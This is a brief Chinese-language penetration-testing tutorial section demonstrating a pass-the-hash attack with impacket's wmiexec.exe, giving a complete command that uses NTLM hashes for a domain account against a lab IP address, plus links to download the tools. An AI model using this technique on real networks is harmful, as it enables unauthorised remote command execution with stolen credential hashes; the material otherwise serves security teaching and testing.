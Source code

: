 ```yaml
---
title: "4.2.4.2 impacket-examples-windows"
id: zhfly3430
---
```


#### 4.2.4.2 impacket-examples-windows

impacket-examples-windows 是 impacket(网络协议工具包)的 windows 版本，包含 了几十款工具，这里使用 wmiexec.exe 来演示 pth 攻击。

```
wmiexec.exe -hashes b084e803561e306bff17365faf1ffe89:db23832fd3822fcaea5c019f090fe752 ADTEST/jeff1@192.168.19.14 "whoami" 
```

![image](../img/d8a9c0c484497a3903a6056c673fc296.png)

![image](../img/33b64b4643887b91c860ca00bbee6f86.png)

下载地址:

> impacket-examples-windows:

https://github.com/maaaaz/impacket-examples-windows/releases

> impacket:

https://github.com/SecureAuthCorp/impacket